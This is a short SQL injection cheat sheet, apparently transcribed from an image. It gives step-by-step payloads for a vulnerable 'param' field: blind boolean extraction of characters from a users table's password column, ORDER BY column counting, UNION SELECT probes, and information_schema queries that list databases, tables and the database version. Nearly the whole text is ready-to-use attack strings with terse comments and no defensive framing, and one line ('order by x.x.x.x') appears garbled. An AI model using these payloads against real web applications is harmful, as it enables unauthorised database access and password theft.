   
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1  
' AND (select substring(concat(1,password),1,1) from users limit 0,1)=  
  

## Now determine number of columns in the current table  

  
param=' or 1=1 order by 1#  
  
param=' or 1=1 order by x.x.x.x  
  
let say there are 3 columns  
  

## Now determine vulnerable columns or column which is visible

  
  
param=' or 1=0 union select null,null,null# --> if it produces no error then try  
  
param=' or 1=0 union select 1,2,3# --> check which number shows in web page  
  

## Else try

  
  
param=' or 1=1 union select table_name,null,null from information_schema.tables#  
  
if it produces error try table_name at other positions  
  
Now, lets say column 1,2 are shown in web page  
  

## To futher enumerate

  
  
param=' or 1=0 union select table_schema,null,null from information_schema.columns# --> display all database name  
  
Note 1=0 in above query to show only databases  
  
param=' or 1=0 union select version(),null,null from information_schema.columns# --> retrieve version  
  
param=' or 1=0 union select @@version,null,null from information_schema.columns# --> retrieve version in mssql  
  
param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns# --> return true if version is 1.x.x  
  
param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns# --> return true if version is 5.x.x  
  
param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns# --> return true if version is 5.2.x  
  
param=' or 1=0 union select table_name,null,null from information_schema.columns# --> display all table name  
  